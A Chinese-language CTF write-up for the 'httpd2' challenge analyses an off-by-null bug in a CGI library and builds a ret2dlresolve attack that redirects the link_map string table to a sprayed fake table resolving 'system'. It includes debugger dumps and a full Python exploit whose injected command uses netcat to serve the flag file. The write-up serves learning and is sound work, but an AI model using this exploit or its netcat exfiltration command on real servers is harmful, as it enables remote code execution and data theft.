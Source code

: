 ```yaml
---
data: 2024-07-20 16:31
challenge: httpd2
tags:
  - dlresolve
  - spary
---
```


> [!info]
> 题目本身不难，对于线下赛我认为工作量也是很合适的。针对动态链接的攻击非常有趣，是一道好题。
>
> 但是比赛期间我没有解出来（0 解），原因如下：
>
> 1. 题目存在两处漏洞，都是越界写。但是越界 buffer 的附近没有任何数据
> 2. 利用涉及喷射 - 命中的思路，线下赛期间感觉思路比较混乱
> 3. ~~此外就是被本地出了远程爆破半天出不来的 solo 题和虚拟机逆向题折磨得神志不清~~

## Analysis

cgi-bin 目录下一共给了三个文件，其中漏洞只有可能存在于 `libctfc.so`（因为另外两个都过于直白了），其中有用的洞是 `genCookie` 函数里的越界写 0：

```c
v4 = strlen(passwd);
sub_135A(dest, 1024LL, passwd, v4 + 1);
dest[v4] = 0;
```

<details>
<summary> 调试 </summary>

这种题目的调试我一般使用 gdbserver，直接在 docker 里面安装，替换 main.cgi 内容为 `gdbserver 0.0.0.0:1234 ./real.cgi` 即可调试，相关脚本见 [initgdb.sh](./bin/cgi-bin/initgdb.sh)。

</details>

接下来关闭 aslr 进入调试，定位到越界写 0 的基地址位于 `libctfc.so + 0x14300`，这时候可以想到劫持 `libctf.so` 的 `link_map` 中 `l_info[DT_STRTAB]` 地址到恶意布置好的 `fake_strtab` 上即可：

- `link_map` 结构体：
  - [source/elf/link.h#L101](https://elixir.bootlin.com/glibc/glibc-2.35/source/elf/link.h#L101)
  - 通常位于 `GOT + 8` 的位置，包含程序的基址和名字
  - 构成双向链表

```c
struct link_map
  {
    /* These first few members are part of the protocol with the debugger.
       This is the same format used in SVR4.  */

    ElfW(Addr) l_addr;		/* Difference between the address in the ELF
				   file and the addresses in memory.  */
    char *l_name;		/* Absolute file name object was found in.  */
    ElfW(Dyn) *l_ld;		/* Dynamic section of the shared object.  */
    struct link_map *l_next, *l_prev; /* Chain of loaded objects.  */
  };
```

- `_dl_fixup` 中利用 strtab 解析目标函数地址：
  - [source/elf/dl-runtime.c#L49](https://elixir.bootlin.com/glibc/glibc-2.35/source/elf/dl-runtime.c#L49)
  - 这里只是找到 strtab、symtab 等地址，其中再用符号名称在字符数组的偏移 `st_name` 计算出最终的符号字符串地址，传给 `_dl_lookup_symbol_x` 完成解析
  - 因此伪造 strtab 仅需考虑偏移即可

```c
_dl_fixup (struct link_map *l, ElfW(Word) reloc_arg)
{
  const ElfW(Sym) *const symtab
    = (const void *) D_PTR (l, l_info[DT_SYMTAB]);
  const char *strtab = (const void *) D_PTR (l, l_info[DT_STRTAB]);

  const uintptr_t pltgot = (uintptr_t) D_PTR (l, l_info[DT_PLTGOT]);

  const PLTREL *const reloc
    = (const void *) (D_PTR (l, l_info[DT_JMPREL])
		      + reloc_offset (pltgot, reloc_arg));
  const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
  const ElfW(Sym) *refsym = sym;
  void *const rel_addr = (void *)(l->l_addr + reloc->r_offset);
  lookup_t result;
  DL_FIXUP_VALUE_TYPE value;

// ...
// L95:
      result = _dl_lookup_symbol_x (strtab + sym->st_name, l, &sym, l->l_scope,
				    version, ELF_RTYPE_CLASS_PLT, flags, NULL);
```

因此题目的意图其实很明显，就是用越界写的 `\x00` 篡改指向 `l_info[DT_STRTAB]` 的指针，命中实现布置好的 `fake_strtab`，其中要求：

- 伪造的 `strtab + 8` 处存放一个指针，指向伪造的字符串数组，其中计算好的偏移上存放 `system\x00`：

```bash
pwndbg> telescope 0x7ffff7e9b000
00:0000│  0x7ffff7e9b000 ◂— 0x3e10
01:0008│  0x7ffff7e9b008 —▸ 0x7ffff7fbc1e0 —▸ 0x7ffff7e97000 ◂— 0x10102464c457f
02:0010│  0x7ffff7e9b010 —▸ 0x7ffff7fd8d30 ◂— endbr64
03:0018│  0x7ffff7e9b018 (printf@got[plt]) —▸ 0x7ffff7e98030 ◂— endbr64
04:0020│  0x7ffff7e9b020 (strcmp@got[plt]) —▸ 0x7ffff7e98040 ◂— endbr64
05:0028│  0x7ffff7e9b028 (getPass@got.plt) —▸ 0x7ffff7e98050 ◂— endbr64
06:0030│  0x7ffff7e9b030 (genCookie@got.plt) —▸ 0x7ffff7e83a5a (genCookie) ◂— endbr64
07:0038│  0x7ffff7e9b038 ◂— 0x7ffff7e9b038
pwndbg> telescope 0x7ffff7fbc1e0
00:0000│  0x7ffff7fbc1e0 —▸ 0x7ffff7e97000 ◂— 0x10102464c457f
01:0008│  0x7ffff7fbc1e8 —▸ 0x7ffff7fbc1d0 ◂— './libctf.so'
02:0010│  0x7ffff7fbc1f0 —▸ 0x7ffff7e9ae10 ◂— 1
03:0018│  0x7ffff7fbc1f8 —▸ 0x7ffff7fbc740 —▸ 0x7ffff7e82000 ◂— 0x10102464c457f
04:0020│  0x7ffff7fbc200 —▸ 0x7ffff7ffe890 —▸ 0x7ffff7fc2000 ◂— jg 0x7ffff7fc2047
05:0028│  0x7ffff7fbc208 —▸ 0x7ffff7fbc1e0 —▸ 0x7ffff7e97000 ◂— 0x10102464c457f
06:0030│  0x7ffff7fbc210 ◂— 0
07:0038│  0x7ffff7fbc218 —▸ 0x7ffff7fbc670 —▸ 0x7ffff7fbc688 ◂— 'libctf.so'
pwndbg>
08:0040│  0x7ffff7fbc220 ◂— 0
09:0048│  0x7ffff7fbc228 —▸ 0x7ffff7e9ae20 ◂— 1
0a:0050│  0x7ffff7fbc230 —▸ 0x7ffff7e9aef0 ◂— 2
0b:0058│  0x7ffff7fbc238 —▸ 0x7ffff7e9aee0 ◂— 3
0c:0060│  0x7ffff7fbc240 ◂— 0
0d:0068│  0x7ffff7fbc248 —▸ 0x7ffff7e9aea0 ◂— 5
0e:0070│  0x7ffff7fbc250 —▸ 0x7ffff7e9aeb0 ◂— 6
0f:0078│  0x7ffff7fbc258 —▸ 0x7ffff7e9af20 ◂— 7
pwndbg> telescope 0x7ffff7e9aea0
00:0000│  0x7ffff7e9aea0 ◂— 5
01:0008│  0x7ffff7e9aea8 —▸ 0x7ffff7e97408 ◂— 0x5f6e6f6d675f5f00
02:0010│  0x7ffff7e9aeb0 ◂— 6
03:0018│  0x7ffff7e9aeb8 —▸ 0x7ffff7e97318 ◂— 0
04:0020│  0x7ffff7e9aec0 ◂— 0xa /* '\n' */
05:0028│  0x7ffff7e9aec8 ◂— 0xa1
06:0030│  0x7ffff7e9aed0 ◂— 0xb /* '\x0b' */
07:0038│  0x7ffff7e9aed8 ◂— 0x18
pwndbg> x/32s 0x7ffff7e97408
0x7ffff7e97408: ""
0x7ffff7e97409: "__gmon_start__"
0x7ffff7e97418: "_ITM_deregisterTMCloneTable"
0x7ffff7e97434: "_ITM_registerTMCloneTable"
0x7ffff7e9744e: "__cxa_finalize"
0x7ffff7e9745d: "checkLogin"
0x7ffff7e97468: "genCookie"
0x7ffff7e97472: "getPass"
```

上述伪造建立在我们输入的参数

## Exploitation

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

# cli_script()
# set_remote_libc("libc.so.6")
#
# io: tube = gift.io
# elf: ELF = gift.elf
# libc: ELF = gift.libc

context.log_level = "info"
context.arch = "amd64"
context.terminal = ["tmux", "sp", "-h", "-l", "120"]

rl = lambda a=False: io.recvline(a)
ru = lambda a, b=True: io.recvuntil(a, b)
rn = lambda x: io.recvn(x)
s = lambda x: io.send(x)
sl = lambda x: io.sendline(x)
sa = lambda a, b: io.sendafter(a, b)
sla = lambda a, b: io.sendlineafter(a, b)
ia = lambda: io.interactive()
dbg = lambda text=None: gdb.attach(io, text)
i2b = lambda c: str(c).encode()
u32_ex = lambda data: u32(data.ljust(4, b"\x00"))
u64_ex = lambda data: u64(data.ljust(8, b"\x00"))

io = remote("127.0.0.1", 80)

while True:
    try:

        def get_payload(name, passwd, spary_payload):
            payload = b"POST /cgi-bin/main.cgi HTTP/1.1\r\n"
            payload += b"Host: localhost\r\n"
            payload += b"Content-Type: application/x-www-form-urlencoded\r\n"
            payload += b"Connection: close\r\n"

            post_data = b"username=" + name + b"&passwd=" + passwd + spary_payload
            payload += f"Content-Length: {len(post_data)}\r\n".encode()
            payload += b"\r\n"
            payload += post_data
            payload += b"\r\n"
            return payload

        spary_payload = b""
        for i in range(0xC0 + 0x10, 0x5000, 8):
            if ((i - 8) & 0xFFF) == 0xEA0:
                spary_payload += b"&" + b"a" * 0x69 + b"%00system%00"
            else:
                spary_payload += b"&x"

        distance = 0x125F48
        payload = get_payload(
            b"nc -lvp 8888 < ../flag", b"a" * (distance + 2), spary_payload
        )
        s(payload)

        data = rl()
        print(data)
        assert b"500" not in data()

        ia()
    except:
        io.close()
        io = remote("127.0.0.1", 80)


# buf = 0x7ffff7e96300
# target_strtab = 0x7ffff7fbc248
```

---

## References

\[1\] [Official WP - xctf final 2024 httpd2 writeup](https://forum.butian.net/share/3123) . _[noir](https://forum.butian.net/people/32623)_

